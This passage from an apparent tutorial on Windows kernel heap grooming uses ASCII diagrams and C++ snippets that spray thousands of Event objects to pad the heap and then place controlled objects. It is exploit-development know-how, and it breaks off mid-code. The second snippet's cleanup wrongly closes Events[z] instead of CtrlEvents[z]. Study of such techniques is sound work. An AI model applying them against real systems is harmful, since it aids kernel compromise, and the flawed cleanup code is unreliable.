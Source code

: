 ```
| [                     FREE                     ] |
+--------------------------------------------------+

Step 2: Fill the Kernel Heap with our padding
+--------------------------------------------------+
| [OsHp] [OsHp] [Padd] [Padd] [OsHp] [OsHp] [Padd] |
| [OsHp] [Padd] [OsHp] [Padd] [Padd] [Padd] [OsHp] |
| [OsHp] [Padd] [Padd] [Padd] [Padd] [OsHp] [OsHp] |
| [                     FREE                     ] |
+--------------------------------------------------+
```

Padding code could be:
```cpp
...
	HANDLE Events[5000] = { 0 };
...
	for (unsigned int i = 0; i < 5000; i++) {

		Events[i] = CreateEventA(NULL, FALSE, FALSE, NULL); //  -> 0x80 bytes
		if (Events[i] == NULL) {
			printf("\n[%d] ERROR ON \"CreateEventA\" -> %d\n", i, GetLastError());
			for (unsigned int z = 0; z < 5000; z++) {
				if (Events[z] != NULL) {
					CloseHandle(Events[z]);
					Events[z] = NULL;
				}
			}
			return -1;
		}
	}
...
```

```
Step 3: Once we have a solid, flat base without bumps we can proceed to the next step which is the allocaton of controlled objects.
+--------------------------------------------------+
| [OsHp] [OsHp] [Padd] [Padd] [OsHp] [OsHp] [Padd] |
| [OsHp] [Padd] [OsHp] [Padd] [Padd] [Padd] [OsHp] |
| [OsHp] [Padd] [Padd] [Padd] [Padd] [OsHp] [OsHp] |
| [Ctrl] [Ctrl] [Ctrl] [Ctrl] [Ctrl] [Ctrl] [Ctrl] |
| [Ctrl] [Ctrl] [Ctrl] [Ctrl] [Ctrl] [Ctrl] [Ctrl] |
| [Ctrl] [Ctrl] [Ctrl] [Ctrl] [Ctrl] [Ctrl] [Ctrl] |
| [Ctrl] [Ctrl] [Ctrl] [Ctrl] [Ctrl] [Ctrl] [Ctrl] |
| [Ctrl] [Ctrl] [Ctrl] [Ctrl] [Ctrl] [Ctrl] [Ctrl] |
| [Ctrl] [Ctrl] [Ctrl] [Ctrl] [Ctrl] [Ctrl] [Ctrl] |
+--------------------------------------------------+
```

Controlled objects allocation code could be (the same as before):
```cpp
...
	HANDLE CtrlEvents[5000] = { 0 };
...
	for (unsigned int i = 0; i < 5000; i++) {

		CtrlEvents[i] = CreateEventA(NULL, FALSE, FALSE, NULL);
		if (CtrlEvents[i] == NULL) {
			printf("\n[%d] ERROR ON \"CreateEventA\" -> %d (Ctrl)\n", i, GetLastError());
			for (unsigned int z = 0; z < 5000; z++) {
				if (CtrlEvents[z] != NULL) {
					CloseHandle(Events[z]);
					CtrlEvents[z] = NULL;
				}
```